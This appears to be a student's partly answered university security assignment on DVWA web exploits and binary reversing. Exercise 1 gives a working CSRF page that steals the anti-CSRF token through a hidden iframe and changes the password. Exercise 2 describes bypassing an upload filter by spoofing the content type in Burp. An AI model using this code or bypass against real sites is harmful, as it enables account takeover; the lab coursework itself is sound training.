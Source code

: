 
# Part 1 - Advanced Web Exploits

> [!exercise] Exercise 1 - CSRF Token Stealing
>
> When on the high-security setting of DVWA, a unique ANTI-CSRF token is created each time the password change page is accessed, as shown in the workshop. To launch a CSRF attack in this case, we first need to steal the token. Create an HTML (name it: 'csrf.html') file that can steal the token from the DVWA CSRF page `http://[hacklabvm_ip]/DVWA/vulnerabilities/csrf` and change the password to 'csf2024s1'. You can use the template [here](https://myuni.adelaide.edu.au/courses/95262/files/14817144?wrap=1 "csrf.html"). Show the content of your csrf.html file.
>
> **Answer:**
>
> The default `html` file already does the stealing for us, we just need to add the `hacklab IP` to the `source` and `url` variables



```html
<html>

<body>
    <p>TOTALLY LEGITIMATE AND SAFE WEBSITE </p>
    <iframe id="myFrame" src="http://192.168.56.102/DVWA/vulnerabilities/csrf/" style="visibility: hidden;"
        onload="maliciousPayload()"></iframe>
    <script>
        function maliciousPayload() {
            console.log("start");
            var iframe = document.getElementById("myFrame");
            var doc = iframe.contentDocument;
            console.log(doc)
            var token = doc.getElementsByName("user_token")[0].value;
            console.log(token)
            const http = new XMLHttpRequest();
            const url = "http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=csf2024s1&password_conf=csf2024s1&Change=Change&user_token=" + token + "#";
            http.open("GET", url);
            http.send();
            console.log("password changed");
        }
    </script>
</body>

</html>
```

> [!exercise] Exercise 2 - Uploading the CSRF File
>
> Set the DVWA security level to MEDIUM. Upload the csrf.html file to the "hackable/uploads/" folder. Provide details of the steps you use to upload the HTML file with the security level set at medium.
>
> **Answer:**
>
> This was the exact same exercise from the workshop. Since the file upload only takes images, we simply intercept the packet in burp, change the content type to `image/jpeg` and forward it! If we navigate to `<hacklab>/DVWA/hackable/uploads`, we can see the `html` file inside the directory
> 
> ![[Pasted image 20240515072304.png]]
> 
> ![[Pasted image 20240515072457.png]]



> [!exercise] Exercise 3 - Triggering the Malicious HTML
>
> **q3. [1 point]** Show that after a user visits `http://[hacklabvm_ip]/hackable/uploads/csrf.html`, the password changes to 'csf2024s1'. Explain what happened.
>
> **Answer:**
>
> [Space for answer]

## Part 2 - Digital Forensics

> [!exercise] Exercise 4 - Reversing (1)
>
> **q1. [2 points]** Download this [binary](https://myuni.adelaide.edu.au/courses/95262/files/14689600/download?download_frd=1). You can run it as `./q1` in Linux. You are not allowed to patch this program. Use Ghidra, Cutter, or Radare2 (or something else) to decompile and deduce the password required for revealing the secret. Get the program to print the secret.
>
> **Answer:**
>
> [Space for answer]

> [!exercise] Exercise 5 - Reversing (2)
>
> **q2. [2 points]** Download this [binary](https://myuni.adelaide.edu.au/courses/95262/files/14689602/download?download_frd=1). You can run it as `./q2` in Linux. You are not allowed to patch this program. Use Ghidra/Cutter/Radare2 to determine what you need to do outside of the program to get it to reveal the secret. Get the program to print the secret.
>
> **Answer:**
>
> [Space for answer]

> [!exercise] Exercise 6 - Reversing (3)
>
> **q3. [2 points]** Download this [binary](https://myuni.adelaide.edu.au/courses/95262/files/14689603/download?download_frd=1). You can run it as `./q3` in Linux. You should patch this program to get it to reveal the secret using Ghidra/Cutter/Radare2 (as per workshop, Cutter is easiest, but feel free to use any program). Use the modified (patched) program to print the secret.
>
> **Answer:**
>
> [Space for answer]

> [!exercise] Exercise 7 - Matryoshka
>
> **q4. [3 points]** Analyze this [Hacktivist2-2.png](https://myuni.adelaide.edu.au/courses/95262/files/14689604/download?download_frd=1) to get the secret.
>
> **Answer:**
>
> [Space for answer]